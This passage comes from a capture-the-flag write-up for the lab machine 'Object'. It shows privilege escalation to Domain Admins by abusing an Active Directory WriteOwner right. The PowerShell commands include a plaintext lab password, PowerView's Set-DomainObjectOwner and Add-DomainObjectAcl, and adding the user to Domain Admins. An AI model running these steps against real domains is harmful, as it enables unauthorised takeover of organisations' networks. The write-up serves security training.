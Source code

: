 
Now I have evil-winrm shell as user maria:

![](https://i.imgur.com/R98bdsr.png)



## Privesc: maria to Domain Admis
### WriteOwner Abuse
The user MARIA@OBJECT.LOCAL has the ability to modify the owner of the group DOMAIN ADMINS@OBJECT.LOCAL.

Object owners retain the ability to modify object security descriptors, regardless of permissions on the object's DACL.

![](https://i.imgur.com/RS6giYY.png)


I will first create a PSCredential object:

```powershell
$SecPassword = ConvertTo-SecureString 'W3llcr4ft3d_4cls' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('object.local\maria', $SecPassword)
```

Once again, I will upload PowerView.ps1 using `upload PowerView.ps1` and import it using `Import-Module .\PowerView.ps1`.


Using **Set-DomainObejctOwner**, I will set **maria** as the owner of **Domain Admins**. After that, I use **Add-DomainObjectAcl** to grant **maria** all the rights. Finally I will add **maria** to **Domain Admins**:

```powershell
Set-DomainObjectOwner -Credential $Cred -Identity "Domain Admins" -OwnerIdentity maria

Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All -Verbose

net group "Domain Admins" maria /add
```

I can confirm the above process using the command below:

`Get-DomainGroupMember -Identity 'Domain Admins'`

![](https://i.imgur.com/QnC09UT.png)


Accessing evil-winrm again after exit grants me full privilege"

![](https://i.imgur.com/Ba2y8aU.png)


## References
- https://github.com/morph3/writeups/tree/main/htb-unictf-quals-2021/fullpwn/object#kerberoasting
- https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
